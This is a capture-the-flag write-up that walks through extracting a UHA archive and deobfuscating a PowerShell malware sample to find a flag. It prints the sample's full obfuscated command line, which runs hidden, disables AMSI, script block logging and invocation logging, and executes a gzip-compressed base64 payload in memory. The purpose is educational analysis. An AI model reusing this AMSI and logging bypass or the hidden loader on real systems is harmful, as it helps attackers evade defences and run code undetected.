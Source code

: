 # Hot off the press

## Oh wow, a malware analyst shared a sample that I read about in the news! But it looks like they put it in some weird kind of archive...? Anyway, the password should be `infected` as usual!

A file is attached to the challenge.

---

Download the file. 

But... This is a weird file.. What kind is this ?

### uha file

A UHA file is an archive, you need [a specific tool](https://sam.gleske.net/uharc/) to decompress the archive. 

Put the UHARCD executable in the same folder as the archive and use this command, the pwd is in the challenge context

`.\uharc.exe e -pw .\hot_off_the_press`



![Alt text](image.png)


A wild powershell script appears.


### Powershell script

As you can see, the code is well obfuscated and honestly a pain in the ass to read

> `C:\Windows\SysWOW64\cmd.exe /c powershell.exe -nop -w hidden -noni -c if([IntPtr]::Size -eq 4){$b=$env:windir+'\sysnative\WindowsPowerShell\v1.0\powershell.exe'}else{$b='powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c $x_wa3=((''Sc''+''{2}i''+''pt{1}loc{0}Logg''+''in''+''g'')-f''k'',''B'',''r'');If($PSVersionTable.PSVersion.Major -ge 3){ $sw=((''E''+''nable{3}''+''c{''+''1}''+''ip{0}Bloc{2}Logging''+'''')-f''t'',''r'',''k'',''S''); $p8=[Collections.Generic.Dictionary[string,System.Object]]::new(); $gG0=((''Ena''+''ble{2}c{5}i{3}t{''+''4}loc''+''{0}{1}''+''nv''+''o''+''cationLoggi''+''ng'')-f''k'',''I'',''S'',''p'',''B'',''r''); $jXZ4D=[Ref].Assembly.GetType(((''{0}y''+''s''+''tem.{1}a''+''n''+''a{4}ement.A{5}t''+''omati''+''on.{2''+''}ti{3}s'')-f''S'',''M'',''U'',''l'',''g'',''u'')); $plhF=[Ref].Assembly.GetType(((''{''+''6}{''+''5}stem.''+''{''+''3''+''}{9}''+''n{9}{''+''2}ement''+''.{''+''8}{''+''4}t{''+''7''+''}''+''m{9}ti{7}n''+''.''+''{8''+''}''+''m''+''si{0''+''}ti{''+''1}s'')-f''U'',''l'',''g'',''M'',''u'',''y'',''S'',''o'',''A'',''a'')); if ($plhF) { $plhF.GetField(((''''+''a{''+''0}''+''si{4}''+''nit{''+''1}''+''ai''+''l{2}{''+''3}'')-f''m'',''F'',''e'',''d'',''I''),''NonPublic,Static'').SetValue($null,$true); }; $lCj=$jXZ4D.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($lCj) { $a938=$lCj.GetValue($null); If($a938[$x_wa3]){ $a938[$x_wa3][$sw]=0; $a938[$x_wa3][$gG0]=0; } $p8.Add($gG0,0); $p8.Add($sw,0); $a938[''HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\''+$x_wa3]=$p8; } Else { [Ref].Assembly.GetType(((''S{2}{3}''+''t''+''em''+''.Mana''+''ge''+''ment.{''+''5}{4}to''+''mation.Scr''+''ipt{1}loc{0}'')-f''k'',''B'',''y'',''s'',''u'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sI''+''AIeJ''+''G2UC/+1X''+''bU/jOBD+3l9hrS''+''IlkU{0}''+''VFvb{1}IiFdWqD''+''bPRJKS8vR''+''brUKy''+''TR168TFcQplb//7''+''jfNSygJ73{1}lI94F''+''IVvwyMx4/M''+''7YfT9PYl5TH''+''hH7sku8VUnxd''+''T3gRMTT/ku''+''/fWUSjS3Mzp''+''oX7zCWHxBjby+UR''+''jzwaTw4OWq''+''kQ{1}M''+''u8XW2''+''DtJM{1}''+''omtGI''+''TFM8he5nIGAnbP''+''rOfiSf''+''Cfat2qb8W''+''uPFW{0}rlufP''+''gOzYcaD''+''GTrnvKbeq/''+''SWj0tC/ftXN8U5''+''9Uj2+ST2''+''WGHp/nUiIqgFjuk''+''l+mGrCi/USDN2''+''hvuAJn8rqJY''+''13G9VBn''+''HhTcNHa''+''ChyQMx4''+''kul''+''nZ{0}{1}a''+''AT{1}Wcr0kZyUUMHa''+''tdwX0''+''7CAQkiW6RsTI''+''/nkx+N8bF''+''3{0}00''+''ljS''+''CaieWIPiyD''+''2JFfUiq''+''n704YNC''+''D6QS1+l{0}Q''+''OJyYJoq''+''t+AIM{0}U4Zs8''+''i/MWO4c''+''Fsi91olY1sJpbpS''+''mBYG''+''9Jl1OjxIG''+''eSa+jOO''+''5kl''+''g4pcngl''+''n5UalMy7''+''yJvPq''+''3o6eZs2mX''+''3zgbAHTX6PK''+''{1}Zr''+''qHp''+''GYRBy''+''f2JBdrbGoXIgVz''+''sgGbaNGe/Yf''+''1SmP1UhP1V''+''u0U''+''e8ZDToP''+''JRn0r''+''7tr0pj38q{1}''+''ReTuIjmNI''+''YjtaxF1G/''+''zFPjuWjAl{1}{1}GR''+''7UUc9{1}9Qy8''+''GIDgCB''+''q{1}nFb4qKZ6oHU''+''dUbnSbKWUB''+''CNvHiCb''+''oFQbbfO''+''xMHjJD78QORAhd3''+''sYs''+''1aa4O6''+''CU{0}nb''+''{1}upxdtVFIbz{1}v''+''SSzSTXF7+hbpg8c''+''gsIgdJ7QYs''+''lPJs6r+4K6T''+''Mkl9{0}5Glu''+''Yn5{1}5zFtC''+''0eJ1KkPgYVIbj''+''o{0}8''+''GnHlOIWO''+''QzDaC57''+''tOwnF5/Fo+Wxx''+''juG7S0wnhgj8''+''Kh{0}1Wq''+''CPQ0Swuz2g''+''fZiZYMIpTJjosT5''+''oV4''+''OBS7I''+''8st{0}4RAf8HRc''+''hPkGa+Q''+''KSHZchP''+''D3WdcWmRIhcTDR6''+''GM2fVfnHhy''+''6uTOtAQ''+''UwTGyvTVur''+''qXKfi0+P''+''W8sVI4WAGVwCI''+''lQn''+''AgeNb0{1}ftv{0}Dxjj''+''Q6dlh+/lvbyX''+''9/K/{0}22X+XG''+''vHr''+''RZ0mnV635''+''0N7''+''+6d''+''Pmob8sR''+''bf{0}gc+/2j''+''O6vT''+''ufHt856786''+''dO6lz{1}e5i''+''e302D2/PjuxV''+''tzFMr''+''xqfFqP{0}3nQU3''+''c1G''+''9zXmzq+''+''YGzn4P8b''+''iM7f''+''Rwf85lk''+''4+Nh8w5''+''36Q1Z17P6vn7''+''WP8h1gW2R/n+0''+''m2g8UuZ''+''M{0}M3kN7UYyHh''+''T17M5+aw22''+''ch1+GvZO{0}oc3+bF''+''+FX2jz''+''PmifrIOWvTq''+''nNhse''+''D91Ba+iPwsPD''+''D2ZlPKCx3G1M1{1}W''+''+qwhS''+''RWP+p/''+''2tS+Al6''+''ud4''+''Ipl5DC8H5HTl''+''FX3C''+''xUnB1{0}qcKg3DU''+''{1}x/''+''ASIGhvQYCXR5sd''+''mMcV+RxJzSIUP''+''NeaOisYNO''+''5tVzNZNsBM0''+''H9lh2HRyM''+''0{1}u8{0}{0}O7rH''+''oKcShnVu1ut1ZD''+''7le7q+3htfj6''+''pbX4cm3ktix''+''FHjNwNtZZZt2s''+''0CkxjDfHC9''+''8H{1}unK{0}xB7C''+''Tyce''+''4H0AvlOfukrCJ''+''ucs20A''+''i5Vt8''+''u{1}R''+''fghcHVc/Vq+''+''D{0}FPQxA7''+''c{1}{1}0q/rzFxrX0''+''+uz6TZOnIC8z/AX''+''/mDwPfb8YfVVC1a''+''wcoCfd''+''jzseiN/bIX''+''DpUYmCf''+''aRhDPKHwQtAFB''+''tmK8gqP{0}gbpsWn''+''Hspnq''+''dxx8''+''emlmODf2GZMc5''+''4PA''+''AA='')-f''L'',''E'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"]`

The end of the file is pretty interesting, especially this part :

`New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream([System.Convert]::FromBase64String(((`

It means we have to decode from base64 then decompress from gzip.

If I do like said it leads to errors. I noticed another thing in the code:

> `''H4sI''+''AIeJ''+''G2UC/+1X''+''bU/jOBD+3l9hrS''+''IlkU{0}''+''VFvb{1}IiFdWqD''+''bPRJKS8vR''+''brUKy''+''TR168TFcQplb//7''+''jfNSygJ73{1}lI94F''+''IVvwyMx4/M''+''7YfT9PYl5TH''+''hH7sku8VUnxd''+''T3gRMTT/ku''+''/fWUSjS3Mzp''+''oX7zCWHxBjby+UR''+''jzwaTw4OWq''+''kQ{1}M''+''u8XW2''+''DtJM{1}''+''omtGI''+''TFM8he5nIGAnbP''+''rOfiSf''+''Cfat2qb8W''+''uPFW{0}rlufP''+''gOzYcaD''+''GTrnvKbeq/''+''SWj0tC/ftXN8U5''+''9Uj2+ST2''+''WGHp/nUiIqgFjuk''+''l+mGrCi/USDN2''+''hvuAJn8rqJY''+''13G9VBn''+''HhTcNHa''+''ChyQMx4''+''kul''+''nZ{0}{1}a''+''AT{1}Wcr0kZyUUMHa''+''tdwX0''+''7CAQkiW6RsTI''+''/nkx+N8bF''+''3{0}00''+''ljS''+''CaieWIPiyD''+''2JFfUiq''+''n704YNC''+''D6QS1+l{0}Q''+''OJyYJoq''+''t+AIM{0}U4Zs8''+''i/MWO4c''+''Fsi91olY1sJpbpS''+''mBYG''+''9Jl1OjxIG''+''eSa+jOO''+''5kl''+''g4pcngl''+''n5UalMy7''+''yJvPq''+''3o6eZs2mX''+''3zgbAHTX6PK''+''{1}Zr''+''qHp''+''GYRBy''+''f2JBdrbGoXIgVz''+''sgGbaNGe/Yf''+''1SmP1UhP1V''+''u0U''+''e8ZDToP''+''JRn0r''+''7tr0pj38q{1}''+''ReTuIjmNI''+''YjtaxF1G/''+''zFPjuWjAl{1}{1}GR''+''7UUc9{1}9Qy8''+''GIDgCB''+''q{1}nFb4qKZ6oHU''+''dUbnSbKWUB''+''CNvHiCb''+''oFQbbfO''+''xMHjJD78QORAhd3''+''sYs''+''1aa4O6''+''CU{0}nb''+''{1}upxdtVFIbz{1}v''+''SSzSTXF7+hbpg8c''+''gsIgdJ7QYs''+''lPJs6r+4K6T''+''Mkl9{0}5Glu''+''Yn5{1}5zFtC''+''0eJ1KkPgYVIbj''+''o{0}8''+''GnHlOIWO''+''QzDaC57''+''tOwnF5/Fo+Wxx''+''juG7S0wnhgj8''+''Kh{0}1Wq''+''CPQ0Swuz2g''+''fZiZYMIpTJjosT5''+''oV4''+''OBS7I''+''8st{0}4RAf8HRc''+''hPkGa+Q''+''KSHZchP''+''D3WdcWmRIhcTDR6''+''GM2fVfnHhy''+''6uTOtAQ''+''UwTGyvTVur''+''qXKfi0+P''+''W8sVI4WAGVwCI''+''lQn''+''AgeNb0{1}ftv{0}Dxjj''+''Q6dlh+/lvbyX''+''9/K/{0}22X+XG''+''vHr''+''RZ0mnV635''+''0N7''+''+6d''+''Pmob8sR''+''bf{0}gc+/2j''+''O6vT''+''ufHt856786''+''dO6lz{1}e5i''+''e302D2/PjuxV''+''tzFMr''+''xqfFqP{0}3nQU3''+''c1G''+''9zXmzq+''+''YGzn4P8b''+''iM7f''+''Rwf85lk''+''4+Nh8w5''+''36Q1Z17P6vn7''+''WP8h1gW2R/n+0''+''m2g8UuZ''+''M{0}M3kN7UYyHh''+''T17M5+aw22''+''ch1+GvZO{0}oc3+bF''+''+FX2jz''+''PmifrIOWvTq''+''nNhse''+''D91Ba+iPwsPD''+''D2ZlPKCx3G1M1{1}W''+''+qwhS''+''RWP+p/''+''2tS+Al6''+''ud4''+''Ipl5DC8H5HTl''+''FX3C''+''xUnB1{0}qcKg3DU''+''{1}x/''+''ASIGhvQYCXR5sd''+''mMcV+RxJzSIUP''+''NeaOisYNO''+''5tVzNZNsBM0''+''H9lh2HRyM''+''0{1}u8{0}{0}O7rH''+''oKcShnVu1ut1ZD''+''7le7q+3htfj6''+''pbX4cm3ktix''+''FHjNwNtZZZt2s''+''0CkxjDfHC9''+''8H{1}unK{0}xB7C''+''Tyce''+''4H0AvlOfukrCJ''+''ucs20A''+''i5Vt8''+''u{1}R''+''fghcHVc/Vq+''+''D{0}FPQxA7''+''c{1}{1}0q/rzFxrX0''+''+uz6TZOnIC8z/AX''+''/mDwPfb8YfVVC1a''+''wcoCfd''+''jzseiN/bIX''+''DpUYmCf''+''aRhDPKHwQtAFB''+''tmK8gqP{0}gbpsWn''+''Hspnq''+''dxx8''+''emlmODf2GZMc5''+''4PA''+''AA='')-f''L'',''E''`

1. The strings are concatenated ('+' between the strings) > it is a obfuscation technique
2. There are 2 variables inside the strings (`{0}` and `{1}`, at the end of the line we can see that `{0}` is "L" and `{1}` is "E")

So basically what we need to do there is:

1. Delete all the `''+''` concatenators
2. Replace `{0}` by ``L`` and `{1}` by ``E``
3. Base64 Decode all the String 
4. Gzip decompression

The output should be more code but this time we can see the flag url-encoded. After url-decoding the flag we made it!
